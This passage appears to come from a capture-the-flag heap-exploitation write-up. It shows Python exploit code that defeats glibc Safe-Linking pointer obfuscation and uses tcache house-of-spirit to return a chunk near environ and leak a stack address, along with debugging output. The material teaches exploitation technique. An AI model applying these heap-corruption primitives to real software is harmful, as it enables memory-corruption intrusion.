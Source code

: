 ```python
    def obfuscate(address):
        return address ^ ( ( heap + 0x2d0 ) >> 12 ) # 0x2d0 is offset of first tcache chunk
```

> Safe-Linking was introduced in GLIBC 2.32 which requires us to obfuscate the pointer before overwriting it. You can read more about it [here](https://elixir.bootlin.com/glibc/latest/A/ident/PROTECT_PTR).
{: .prompt-info }

When I ran the script multiple times, I got the following output:

```
index:
>>>
[*] stack leak @ 0x0
```

And this was confusing.

After sometime of debugging I realised that something is wrong.

When we do `create(0, 0x20, b'', 0x20, b'')` we are creating a chunk and writing nothing to it, and creating another chunk **and writing nothing (null byte)** to it.

This is wrong, because the 2nd chunk we allocate is the pointer to `environ`. We want to read this value immediately, and not tamper it by writing to it. But since the application forces us to write something ( we write nothing - NULL byte ), a NULL byte gets written to the LSB of the stack leak.

This is a huge loss because it causes a loss in accuracy of 1 byte ( or 256 possible values ).

We need to correct this immediately. So I chose to do this:

- we use house of spirit to get malloc to return a pointer to ~~`environ`~~ `environ-0x10` ( -0x10 because the heap expects it to be 16 byte aligned )

- then we overwrite the minimum data we can = NULL byte.
  this way we are not corrupting the pointer at `environ` but a value at `environ-0x10`

- then we continue to read as usual and skip the first 0x10 bytes (which are apparently all NULL) and then read the actual pointer and get stack leak

here is the revised code:

```python
    update(0, p64( obfuscate(libc.sym.environ - 0x10) ))
    create(0, 0x20, b'', 0x20, b'')

    data = read(0)
    data = data.split(b'val = \\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00')[1].split(b'\\x00')[0].decode()
    stack_leak = custom_u64(data)
    log.info('stack leak @ %s' % hex(stack_leak))
```

```
index:
>>>
[*] stack leak @ 0x7ffda98a3918
```
